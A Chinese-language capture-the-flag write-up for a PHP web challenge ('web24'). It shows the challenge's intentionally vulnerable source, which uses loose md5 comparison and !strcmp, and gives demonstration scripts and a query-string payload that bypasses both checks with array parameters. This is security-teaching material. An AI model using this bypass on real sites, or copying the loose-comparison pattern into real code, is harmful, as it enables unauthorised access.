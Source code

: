 # web24

![image-20210120151656440](../../..//image/image-20210120151656440.png)

进入题目

![image-20210120151722227](../../..//image/image-20210120151722227.png)

有一些骚话

惯例查看一下源码

![image-20210120151826784](../../..//image/image-20210120151826784.png)

发现一个a标签元素

点开它

![image-20210120151917470](../../..//image/image-20210120151917470.png)

一个code.txt

文件

还有php源码

```php
<?php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];
    $v3 = $_GET['v3'];
    if($v1 != $v2 && md5($v1) == md5($v2)){
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```

源码意思是

判断v1v2v3三个请求是否为空，不为空就把值传给变量$v1\$v2$v3

要判断变量\$v1和\$v2不相等，但是变量\$v1的md5值和$v2的md5值相等

再使用!strcmp判断变量$v3和\$flag二进制安全比较不成立就打印flag

emmm

第一个判断这里

然后md5这个函数不能对数组进行加密

所以在后台里就会报错然后数组里的值就是NULL

然后两个NULL进行弱比较就是 true了

```php
  1 <?php
  2 error_reporting(0);
  3 $a = $_GET['a'];
  4 $b = $_GET['b'];
  5 var_dump(md5($a) == md5($b));
  6 echo "<br>";
  7 var_dump(md5($a));
  8 echo "<br>";
  9 var_dump(md5($b));
```

这里代码执行结果

![image-20210120154208478](../../..//image/image-20210120154208478.png)



第一个判断解决了绕过了到第三个判断

strcmd是二进制安全对比

然后它有一个！

所以是让这个对比不成立才行

这个也是可以用数组进行绕过的

因为数组无法与字符串进行对比

```php
  1 <?php
  2 error_reporting(0);
  3 $a = $_GET['a'];
  4 $b = $_GET['b'];
  5 var_dump(strcmp($a, $b));
  6 if (!strcmp($a, $b)) {
  7    echo "hello";
  8 }
```

运行结果

![image-20210120154730629](../../..//image/image-20210120154730629.png)

这样就可以进行绕过了

回到题目

payload

> ?v1[]=1&v2[]=2&v3[]=3

![image-20210120154828173](../../..//image/image-20210120154828173.png)

得到flag

